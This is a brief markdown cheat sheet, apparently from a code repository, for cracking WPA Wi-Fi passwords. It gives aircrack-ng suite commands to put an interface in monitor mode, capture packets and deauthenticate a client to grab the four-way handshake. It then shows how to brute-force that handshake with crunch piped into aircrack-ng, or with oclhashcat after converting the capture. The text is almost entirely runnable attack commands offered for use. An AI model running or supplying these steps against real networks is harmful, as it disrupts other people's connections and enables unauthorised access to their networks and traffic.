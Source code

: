 # Cracking WPA

Start wireless interface in monitor mode

	airmon-ng check kill
	airmon-ng start wlan0
	airodump-ng --encrypt wpa wlan0mon

Start capturing packets

	airodump-ng -c 2 -w capture --bssid 00:11:22:33:44:55 wlan0mon

Deauthenticate a client

	aireplay-ng -0 5 -a 00:11:22:33:44:55 -c {STATION} wlan0mon

Verify 4-way Handshake

	pyrit -r example.pcap analyze



## Crunch

Cracking with no wordlists

	crunch 10 10 -t %%%%%%%%%% 1234567890 | aircrack-ng -w - capture-01.cap -e WIFINAME

## Hashcat

Strip pcap junk. Beware this could break your pcap file.

	pyrit -r example.pcap -o OUTPUT.pcap strip

Make a friendly Hashcat file. This will convert pcap into a hccap file.

	aircrack-ng OUTPUT.pcap -J example.hccap

Hashing with GPU. Watercooling would be nice.

	./oclhashcat-plus64.bin -m 2500 -a 3 <filename>.hccap --gpu-accel=160 --gpu-loops=1024 -1?d ?1?1?1?1?1?1?1?1?1?1

